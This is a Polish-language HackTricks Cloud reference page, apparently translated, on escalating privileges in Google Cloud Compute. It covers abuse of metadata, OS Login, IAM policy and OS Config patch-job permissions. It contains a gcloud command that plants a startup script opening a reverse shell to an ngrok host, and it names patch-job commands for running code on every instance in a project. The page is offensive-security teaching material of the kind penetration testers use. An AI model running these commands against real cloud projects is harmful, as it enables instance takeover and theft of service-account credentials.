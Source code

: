 # GCP - Eskalacja uprawnień w Compute

<details>

<summary><strong>Nauka hakowania AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLANY SUBSKRYPCYJNE**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Compute

Aby uzyskać więcej informacji na temat Compute i VPC (sieć) w GCP, sprawdź:

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
Zauważ, że aby przeprowadzić wszystkie ataki eskalacji uprawnień, które wymagają modyfikacji metadanych instancji (takie jak dodawanie nowych użytkowników i kluczy SSH), **konieczne jest posiadanie uprawnień `actAs` do SA przypisanego do instancji**, nawet jeśli SA jest już przypisane!
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

Z tym uprawnieniem możesz **modyfikować** informacje **metadanych** instancji i zmieniać **autoryzowane klucze użytkownika**, lub **tworzyć** **nowego użytkownika z uprawnieniami sudo**. Dzięki temu będziesz mógł wykonać SSH do dowolnej instancji VM i ukraść Konto Usługi GCP, z którym działa instancja.\
Ograniczenia:

* Zauważ, że Konta Usług GCP działające w instancjach VM domyślnie mają **bardzo ograniczony zakres**
* Będziesz musiał **możliwość skontaktowania się z serwerem SSH**, aby się zalogować

Aby uzyskać więcej informacji na temat wykorzystania tego uprawnienia, sprawdź:

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

Możesz także przeprowadzić ten atak dodając nowy skrypt uruchamiania i restartując instancję:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

To uprawnienie daje **takie same uprawnienia jak poprzednie uprawnienie**, ale dla konkretnych instancji zamiast całego projektu. Dotyczą go **te same ataki i ograniczenia co dla poprzedniej sekcji**.

### `compute.instances.setIamPolicy`

To uprawnienie pozwoli Ci **przyznać sobie rolę z poprzednimi uprawnieniami** i eskalować uprawnienia nadużywając ich.

### **`compute.instances.osLogin`**

Jeśli **OSLogin jest włączony na instancji**, to dzięki temu uprawnieniu możesz po prostu uruchomić **`gcloud compute ssh [INSTANCJA]`** i połączyć się z instancją. **Nie będziesz miał uprawnień roota** wewnątrz instancji.

### **`compute.instances.osAdminLogin`**

Jeśli **OSLogin jest włączony na instancji**, to dzięki temu uprawnieniu możesz po prostu uruchomić **`gcloud compute ssh [INSTANCJA]`** i połączyć się z instancją. Będziesz miał **uprawnienia roota** wewnątrz instancji.

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

Możliwe jest **utworzenie maszyny wirtualnej z przypisanym kontem usługi i kradzieżą tokena** konta usługi, uzyskując dostęp do metadanych w celu eskalacji uprawnień.

Skrypt wykorzystujący tę metodę można znaleźć [tutaj](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py).

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

Jeśli masz uprawnienia **`osconfig.patchDeployments.create`** lub **`osconfig.patchJobs.exec`**, możesz utworzyć [**zadanie lub wdrożenie łatki**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching). Pozwoli Ci to na lateralne poruszanie się w środowisku i uzyskanie wykonania kodu na wszystkich instancjach obliczeniowych w ramach projektu.

Jeśli chcesz ręcznie wykorzystać tę metodę, będziesz musiał utworzyć [zadanie łatki](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_job.json) lub [wdrożenie](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_deployment.json) dla zadania łatki uruchom:

`gcloud compute os-config patch-jobs execute --file=patch.json`

Aby wdrożyć wdrożenie łatki:

`gcloud compute os-config patch-deployments create my-update --file=patch.json`

Istnieją narzędzia automatyzujące, takie jak [patchy](https://github.com/rek7/patchy), które wykrywają luźne uprawnienia i automatycznie poruszają się lateralnie.

**Możesz także wykorzystać to do trwałości.**

### `compute.machineImages.setIamPolicy`

**Przyznaj sobie dodatkowe uprawnienia** do obrazu maszyny.

### `compute.snapshots.setIamPolicy`

**Przyznaj sobie dodatkowe uprawnienia** do migawki dysku.

### `compute.disks.setIamPolicy`

**Przyznaj sobie dodatkowe uprawnienia** do dysku.

### Bypass Access Scopes

Klikając w ten link znajdziesz kilka [**pomysłów na próbę obejścia zakresów dostępu**](../).

### Lokalna eskalacja uprawnień w instancji obliczeniowej GCP

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## Odnośniki

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

<details>

<summary><strong>Naucz się hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLANY SUBSKRYPCYJNE**](https://github.com/sponsors/carlospolop)!
* Kup [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
